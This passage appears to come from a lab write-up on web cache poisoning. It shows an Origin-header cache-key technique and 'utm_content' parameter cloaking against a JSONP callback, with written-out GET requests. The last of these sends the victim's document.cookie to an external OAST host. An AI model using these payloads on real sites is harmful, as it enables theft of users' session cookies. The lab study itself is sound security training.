 >Then, any GET request (parameters dont affect as they are not part of cache key) to any path with the same `Origin` header will serve the cached response.

![example3](images/example3.png)

>Copying the request in Browsers Original Session will trigger an alert function

![example3](images/alertFunc.png)

>Last part will be to delete `Origin` header and make the same process with the original request so normal users are victims (the original request that normal website users make is done without `Origin` header). 

### Cloaking utm_content

>Param Miner extension doing a `Bulk scan > Rails parameter cloaking scan` will ***identify*** the vulnerability automatically. Manually it can be identified by adding `;` to append another parameter to `utm_content`, the cache treats this as a single parameter. This means that the extra parameter is also excluded from the cache key.  
>The `source code` for `/js/geolocate.js?callback=setCountryCookie` is called on every page and execute callback function.  

>The `callback` parameter is keyed, and thus cannot poison cache for victim user, but by combine duplicate parameter with `utm_content` it then excluded and cache can be poisoned.  

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=EVILFunction
```  

![utm_content cache cloaking](images/utm_content_cloaking.png)  

>Cache Cloaking Cookie Capturing payload below, keep poising cache until victim hits stored cache.  

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=document.location='https://OASTIFY.COM?nuts='%2bdocument.cookie%3b HTTP/2
```  
